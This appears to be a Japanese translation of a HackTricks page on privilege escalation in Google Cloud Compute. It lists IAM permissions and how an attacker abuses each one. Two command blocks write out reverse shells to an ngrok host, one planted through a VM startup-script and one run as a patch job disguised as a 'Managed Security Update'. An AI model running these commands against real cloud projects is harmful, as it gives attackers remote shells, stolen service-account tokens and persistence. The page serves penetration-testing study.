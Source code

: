 # GCP - Compute Privesc

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスウェグ**](https://peass.creator-spring.com)を手に入れる
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする
- **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する

</details>

## Compute

ComputeとVPC（ネットワーク）に関する詳細情報は、以下をチェックしてください：

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
インスタンスのメタデータを変更する必要がある特権昇格攻撃をすべて実行するには、**インスタンスにアタッチされたSAに対する`actAs`権限が必要**です。SAが既にアタッチされていても必要です！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

この権限を持つと、**インスタンス**の**メタデータ情報を変更**し、**ユーザーの認証キーを変更**したり、**sudo権限を持つ新しいユーザーを作成**することができます。したがって、任意のVMインスタンスにSSH経由でアクセスして、インスタンスが実行されているGCPサービスアカウントを盗むことができます。\
制限事項：

- デフォルトでVMインスタンスで実行されているGCPサービスアカウントには**非常に限られたスコープ**があります
- ログインするために**SSHサーバーに接続できる必要**があります

この権限を悪用する方法の詳細については、以下をチェックしてください：

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

新しい起動スクリプトを追加してインスタンスを再起動することで、この攻撃を実行することもできます。
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

この権限は、前の権限と同じ特権を持ちますが、プロジェクト全体ではなく特定のインスタンスに対して適用されます。前のセクションと同じ脆弱性と制限が適用されます。

### `compute.instances.setIamPolicy`

この種類の権限を使用すると、前の権限を持つロールを自分自身に付与し、それを悪用して特権を昇格させることができます。

### **`compute.instances.osLogin`**

インスタンスで**OSLoginが有効になっている場合**、この権限を使用すると、**`gcloud compute ssh [INSTANCE]`** を実行してインスタンスに接続できます。インスタンス内で**root権限を持たない**でしょう。

{% hint style="success" %}
この権限を使用してVMインスタンス内で正常にログインするには、VMにアタッチされたSAに対して`iam.serviceAccounts.actAs`権限を持っている必要があります。
{% endhint %}

### **`compute.instances.osAdminLogin`**

インスタンスで**OSLoginが有効になっている場合**、この権限を使用すると、**`gcloud compute ssh [INSTANCE]`** を実行してインスタンスに接続できます。インスタンス内で**root権限を持つ**でしょう。

{% hint style="success" %}
この権限を使用してVMインスタンス内で正常にログインするには、VMにアタッチされたSAに対して`iam.serviceAccounts.actAs`権限を持っている必要があります。
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

割り当てられたサービスアカウントを持つ仮想マシンを作成し、そのサービスアカウントのトークンを盗むことで特権を昇格させることができます。

この方法の悪用スクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)で見つけることができます。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`**または**`osconfig.patchJobs.exec`**権限がある場合、[**パッチジョブまたはデプロイメント**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)を作成できます。これにより、環境内で横断移動し、プロジェクト内のすべてのコンピュートインスタンスでコードを実行できます。

現時点では、インスタンスにアタッチされたSAに対して`astAs`権限は必要ありません。

手動でこれを悪用する場合は、[**パッチジョブ**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **または** [**デプロイメント**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)を作成する必要があります。\
パッチジョブを実行するには:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

パッチデプロイメントを展開するには:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
ツール[patchy](https://github.com/rek7/patchy)は、過去にこの設定ミスを悪用するために使用されていました（ただし、現在は機能していません）。

**攻撃者はこれを永続化のためにも悪用できます。**

### `compute.machineImages.setIamPolicy`

**コンピュートイメージに追加の権限を付与します。**

### `compute.snapshots.setIamPolicy`

**ディスクスナップショットに追加の権限を付与します。**

### `compute.disks.setIamPolicy`

**ディスクに追加の権限を付与します。**

### アクセススコープのバイパス

このリンクに従うと、[**アクセススコープをバイパスしようとするアイデア**](../)が見つかります。

### GCP Computeインスタンスでのローカル特権昇格

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスウォッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有する

</details>
